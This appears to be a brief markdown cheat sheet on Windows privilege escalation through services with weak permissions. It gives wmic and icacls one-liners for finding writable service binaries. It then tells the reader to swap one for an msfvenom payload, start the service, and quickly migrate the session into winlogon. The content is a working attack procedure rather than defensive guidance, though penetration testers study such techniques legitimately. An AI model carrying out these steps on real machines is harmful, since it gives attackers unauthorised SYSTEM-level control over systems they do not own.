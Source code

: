 # Windows Privilege Escalation via Weak Services

## Identify Weak Services
Find services with "weak permissions".

    # Command 1
    ## List services, filter system32 and dumps output.
    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt

    # Command 2
    ## Parses .txt and runs icacls.
    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"

Important aspects to look at:
- "BUILTIN\Users"
- Full access -> (F)

Replace the original .exe-file with your own generated payload (msfvenom). Afterwards start the service:

    wmic service SERVICE_NAME call startservice

It is important to migrate fast enough, since it might time-out. So, run a "ps" fast enough, and migrate to "winlogon" for example!
